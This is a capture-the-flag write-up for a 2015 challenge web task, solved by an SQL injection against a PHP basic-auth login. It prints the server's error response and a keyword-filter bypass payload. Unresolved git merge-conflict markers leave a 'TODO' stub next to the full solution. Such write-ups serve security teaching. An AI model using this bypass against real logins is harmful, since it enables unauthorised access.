 # Cyber Security Challenge 2015: NSA

**Category:** Web Application Security
**Points:** 50
**Description:**

> We heard rumors that the website below is owned by the NSA. There doesn’t seem to be much to it though… Maybe it’s just a placeholder?
>
> URL: 37.187.249.84:20005

## Write-up

```bash
$ curl 'http://37.187.249.84:20005/robots.txt'
# robots.txt for Nviso Realm

User-agent: *
Disallow: /css
Disallow: /js
Disallow: /imgs
```

<http://37.187.249.84:20005/css/> uses basic access authentication and prompts for a username and password.

<<<<<<< HEAD
(TODO SQL injection)
=======
Although basic access is usually implemented by a .htaccess file, it can just as easily be implemented in PHP by using the correct headers. This basic access is vulnerable to a SQL injection attack. When submitting `"'` as the value for the login and password, the server returns the following response:
```
HTTP/1.1 401 Unauthorized
Date: Mon, 16 Mar 2015 10:38:03 GMT
Server: Apache/2.2.22 (Debian)
X-Powered-By: PHP/5.4.36-0+deb7u3
WWW-Authenticate: Basic realm="Nviso Realm"
Pragma: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"''' at line 1
Vary: Accept-Encoding
Content-Length: 13
Content-Type: text/html

Access Denied
```
This pragma header shows us a MySQL error. The login form is vulnerable, but it does use some input filtering. For example, all MySQL keywords are filtered, but it isn't done recursively. The following input will result in a valid login:
```sql
usr: ' UN=IO=N SEL=ECT * FR=OM usorers; # '
pwd: '
```
This works because the equals sign (=) is removed after the input filter checks for UNTION/SELECT or FROM.

The webserver returns `Congratulations! The flag is basic_auth_is_sooo_last_century`

>>>>>>> upstream/master

## Other write-ups and resources

* none yet
